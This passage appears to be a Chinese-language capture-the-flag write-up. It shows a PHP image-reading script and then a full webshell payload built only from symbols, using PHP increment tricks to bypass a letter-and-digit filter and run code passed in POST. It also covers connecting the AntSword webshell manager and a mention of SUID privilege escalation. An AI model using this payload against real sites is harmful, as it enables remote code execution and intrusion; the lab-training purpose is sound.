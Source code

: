 getApuImage.php

```php
<?php
error_reporting(0);
echo "豪哥哥的image有很多神奇的地方哦！！！";
$image = (string)$_GET['image'];
if(preg_match('/[^a-zA-Z.]+/',$image)===0){
    echo '<div class="img"> <img src="data:image/png;base64,' . base64_encode(file_get_contents($image)) . '" /> </div>';
}else{
    echo "hacker!!!";
}
?>
```

通过getApuAuthenticator.php的HTML注入

直接在HTML注入马

![image-20220522160242677](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522160242677.png)

但是有过滤，用自增的方式处理无字母数字的题

```
$_POST['y4'] = preg_replace("/[a-zA-Z0-9|^~]/","",$_POST['y4']);
```

我测了一下，构造出`eval`和`assert`都没发连接蚁剑

为什么连接蚁剑，应该我们后面读flag要提权

所以构造

```
<?php
$_= CREATE_FUNCTION('', $_POST['$_']);
$_();
```

```
<?=
$_=[];$_=@"$_";$_=$_['!'=='@'];$__=$_;$__++;$__++;$___=$__;$__++;$__++;$_____=$__;$__++;$______=$__;$__++;$__++;$__++;$_______=$__;$__++;$__++;$__++;$__++;$__++;$________=$__;$__++;$_________=$__;$__++;$__++;$__++;$__________=$__;$__++;$__++;$___________=$__;$__++;$____________=$__;$___=$___.$__________.$_____.$_.$___________.$_____.'_'.$______.$____________.$________.$___.$___________.$_______.$_________.$________;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$$____;$_ = $___('',$__[$_]);$_();
?>
```

一定要urlencode再传上去

![image-20220522161153061](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522161153061.png)

连接蚁剑



![image-20220522161059662](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522161059662.png)

然后开始提权,SUID提权

![image-20220522161254200](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220522161254200.png)
